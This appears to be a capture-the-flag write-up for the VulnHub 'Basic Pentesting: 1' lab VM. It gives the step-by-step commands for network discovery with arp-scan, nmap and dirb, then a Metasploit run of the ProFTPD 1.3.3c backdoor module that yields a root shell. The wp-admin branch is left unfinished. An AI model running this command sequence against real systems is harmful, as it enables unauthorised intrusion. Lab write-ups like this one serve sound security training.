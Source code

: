 # Basic Pentesting: 1

VM available here: https://www.vulnhub.com/entry/basic-pentesting-1%2C216/

# Writeup

* `ifconfig` - find IP address of the attack VM
* `sudo arp-scan AAA.AAA.AAA.0/24` - find all IPv4 devices on the network
* `nmap -p- -O -sV -vvv VVV.VVV.VVV.VVV` - scan the target machine
  * OS: Linux 3.2 - 4.9
  * 3 open ports: 21 (FTP), 22 (SSH), 80 (HTTP)
* HTTP server:
  * Version: Apache 2.4.18
  * Open victim's IP address in a browser
  * `dirb VVV.VVV.VVV.VVV` - looks for web files and folders
  * Found `http://VVV.VVV.VVV.VVV/secret`
    * This is a WordPress blog
    * Many of the links refer to `http://vtcsec/`
    * Add this hostname to `/etc/hosts` and reload page
  * Found `http://VVV.VVV.VVV.VVV/secret/wp-admin`
  * ...
* FTP server:
  * Version: ProFTPD 1.3.3c
  * `searchsploit Proftpd 1.3.3c` - search for exploits
    * Found a Metasploit module
  * `msfconsole` - start the Metasploit framework console
    * `search Proftpd 1.3.3c`
    * `use exploit/unix/ftp/proftpd_133c_backdoor`
      * `show options`
      * `set RHOSTS VVV.VVV.VVV.VVV`
      * `run` - gives root access to target through a limited shell
